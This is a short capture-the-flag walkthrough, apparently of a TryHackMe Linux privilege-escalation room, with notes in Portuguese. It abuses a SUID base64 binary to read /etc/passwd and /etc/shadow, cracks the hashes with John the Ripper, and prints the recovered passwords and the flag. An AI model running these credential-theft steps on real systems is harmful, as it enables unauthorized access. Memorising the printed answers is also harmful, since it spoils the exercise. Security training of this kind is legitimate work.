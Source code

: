 ### Which user shares the name of a great comic book writer?

```bash
getent passwd
#gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
```

- `gerryconway`

### What is the password of user2?

```bash
find / -type f -perm -04000 -ls 2>/dev/null
#1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```

- Entao com o base64 podemos ler arquivo
- E para descriptografar as senhas vamos precisar no passwd e do shadow, para pegar o usuario e a senha respectivamente
    
    ```bash
    base64 /etc/passwd | base64 -d
    ```
    
- Agora vamos salvar esse resultado em um arquivo no nosso pc
- E o mesmo para o shadow
    
    ```bash
    base64 /etc/shadow | base64 -d
    ```
    
- Salvar esse tambem
- Entrando na pasta do john/run
    
    ```bash
    ./unshadow ~/Desktop/passwd.txt ~/Desktop/shadow.txt > ../crack
    ./john --wordlist=wordlist/rockyou.txt ../crack
    ./john ../crack --show
    #gerryconway:test123:1001:1001::/home/gerryconway:/bin/sh
    #user2:Password1:1002:1002::/home/user2:/bin/sh
    #karen:Password1:1003:1003::/home/karen:/bin/sh
    ```
    
- `Password1`

### What is the content of the flag3.txt file?

```bash
cd /home/ubuntu
base64 flag3.txt | base64 -d
```

- `THM-3847834`

---
